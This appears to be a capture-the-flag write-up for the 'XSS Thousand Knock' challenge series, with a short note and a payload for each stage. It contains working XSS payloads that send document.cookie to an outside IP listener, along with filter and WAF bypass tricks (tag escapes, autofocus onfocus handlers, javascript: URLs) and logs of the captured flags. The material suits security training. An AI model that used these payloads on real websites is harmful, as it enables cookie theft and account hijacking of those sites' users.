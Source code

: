 # XSS_Thousand_Knock_Write_up

# Stage 1 (Tutorial)- Set up VPS/VPN, I used my AWS Shadowsock VPN in this case, and I created a python to listen flag coming through my VPN server
	- Example: *http://8293927d3c84ed42eef26dd9ceaaa3d9bf448dda.knock.xss.moe/?location=%22http://example.com/?%22%2Bdocument.cookie*

	----> location="http://example.com/?"+document.cookie
	+ Main Payload:
		- <script>location=%22http://54.250.29.21:5000/?%22%2Bdocument.cookie</script>
		- javascript:location.href=`http://54.250.29.21:5000/?=`+document.cookie
	- 133.130.88.37 - - [23/Apr/2018 21:13:08] "GET /?flag=FLAG{waiwai_xss} HTTP/1.1" 200 - Flag is:FLAG{c1a43cdd6c2d3d4a082fe9351bce65f5917ca940}
# Stage 2
  -	http://1a31198b4289ff3af4f7195a810c48eba9f6bf28.knock.xss.moe/?q=%22%3E%3Cscript%3Elocation=%22http://YOUR VPN:5000/?%22%2Bdocument.cookie%3C/script%3E
	- 133.130.88.37 - - [23/Apr/2018 21:37:28] "GET /?flag=FLAG{c1a43cdd6c2d3d4a082fe9351bce65f5917ca940} HTTP/1.1" 200 -

# Stage 3
	Same as Stage 2
  - 133.130.88.37 - - [23/Apr/2018 22:05:37] "GET /?flag=FLAG{0041c8c9789deee9280396eb923d5b4ea8e887b2} HTTP/1.1" 200 -
# Stage 4
	- you need to bypass the <a> by </a> first, then implement XSS attack
	e1f80fe2ec262a235d594fbcee96dba66710.knock.xss.moe/?q='</a>"><script>alert(3)</script>
  - 133.130.88.37 - - [23/Apr/2018 22:11:58] "GET /?flag=FLAG{b8ab462f4ee4aa10f1f0eadb16383f1a596f3ec2} HTTP/1.1" 200 -

# Stage 5
 -	Similar as Stage 4, you need to bypass textarea in this time
	133.130.88.37 - - [23/Apr/2018 22:17:54] "GET /?flag=FLAG{57a968be0c6c0ba1dbc8a222488358366fda4edf} HTTP/1.1" 200 -

# Stage 6
 	- Similar, but you need to bypass XMP tag
	- 133.130.88.37 - - [23/Apr/2018 22:20:40] "GET /?flag=FLAG{66cd945a9de10077c24fc13b0834eec04a16df0c} HTTP/1.1" 200 -

# Stage 7
	- You need to bypass WAF by using onfocus autofocus tag
	- 133.130.88.37 - - [24/Apr/2018 01:21:48] "GET /?flag=FLAG{73fd502659f04529e689fa1e4782bc2f5ebbcea0} HTTP/1.1" 200 -
# Stage 8
	- still using autofocus focus tag, bypass ''
	- http://b65797d44372ecb2b2552e32f10ec75f1bddcca6.knock.xss.moe/?q=test123%27%20autofocus%20onfocus=%27alert(1)
	- 133.130.88.37 - - [24/Apr/2018 01:40:34] "GET /?flag=FLAG{7afa4218c3c89a4f47bdfc09aa6ba54f5b411183} HTTP/1.1" 200 -
# Stage 9
	- Still using autofocus onfocus tag bypass ""
	- http://e461f5f6c542ae79ccc144093c63d0b074e591cd.knock.xss.moe/?q=123%20%22/%3E%20autofocus%20%20onfocus=alert(1)
	-
# Stage 10
	- use javascript fake code
	- http://811fbf0db9c40565743a37c2978f812b82eb89a6.knock.xss.moe/?q=javascript:location.href=`http://54.250.29.21:5000/?=`+document.cookie
	- 133.130.88.37 - - [24/Apr/2018 01:50:57] "GET /?flag=FLAG{be6675878b462751acb240fdd1422c2ec4c963cd} HTTP/1.1" 200 -
